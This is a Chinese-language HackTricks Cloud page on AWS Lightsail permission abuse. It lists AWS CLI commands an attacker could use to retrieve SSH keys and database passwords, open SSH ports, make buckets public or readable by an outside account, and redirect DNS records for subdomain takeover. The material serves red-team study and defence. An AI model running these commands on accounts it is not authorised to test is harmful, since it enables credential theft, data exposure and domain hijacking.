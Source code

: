 # AWS - Lightsail Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Lightsail

有关 Lightsail 的更多信息，请查看：

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
重要的是要注意，Lightsail **不使用属于用户的 IAM 角色**，而是使用 AWS 管理的账户，因此您无法利用此服务进行权限提升。然而，**敏感数据**如代码、API 密钥和数据库信息可能会在此服务中找到。
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

此权限将允许您获取访问实例的 SSH 密钥：
```
aws lightsail download-default-key-pair
```
**潜在影响：** 在实例中查找敏感信息。

### `lightsail:GetInstanceAccessDetails`

此权限将允许您生成 SSH 密钥以访问实例：
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在影响：** 在实例中查找敏感信息。

### `lightsail:CreateBucketAccessKey`

此权限将允许您获取访问存储桶的密钥：
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在影响：** 在存储桶中查找敏感信息。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

此权限将允许您获取访问数据库的凭据：
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在影响：** 在数据库中找到敏感信息。

### `lightsail:UpdateRelationalDatabase`

此权限将允许您更改访问数据库的密码：

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

如果数据库不是公开的，您也可以通过以下权限将其公开

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**潜在影响：** 在数据库中查找敏感信息。

### `lightsail:OpenInstancePublicPorts`

此权限允许将端口开放到互联网。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在影响：** 访问敏感端口。

### `lightsail:PutInstancePublicPorts`

此权限允许将端口开放到互联网。请注意，此调用将关闭未在其上指定的任何已打开端口。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在影响：** 访问敏感端口。

### `lightsail:SetResourceAccessForBucket`

此权限允许为实例提供对存储桶的访问，而无需任何额外凭据。

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**潜在影响：** 可能获得对包含敏感信息的存储桶的新访问权限。

### `lightsail:UpdateBucket`

通过此权限，攻击者可以授予自己的AWS账户对存储桶的读取访问权限，甚至可以将存储桶公开给所有人：
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在影响：** 可能新获得对包含敏感信息的存储桶的访问。

### `lightsail:UpdateContainerService`

通过此权限，攻击者可以授予对容器服务的私有 ECR 的访问权限。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在影响：** 从私有 ECR 获取敏感信息

### `lightsail:CreateDomainEntry`

拥有此权限的攻击者可以创建子域并将其指向自己的 IP 地址（子域接管），或制作一个 SPF 记录，使其能够伪造来自该域的电子邮件，甚至将主域设置为自己的 IP 地址。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在影响：** 接管一个域名

### `lightsail:UpdateDomainEntry`

拥有此权限的攻击者可以创建子域并将其指向自己的IP地址（子域接管），或制作一个SPF记录，使其能够伪造来自该域的电子邮件，甚至将主域设置为自己的IP地址。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在影响：** 接管一个域

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
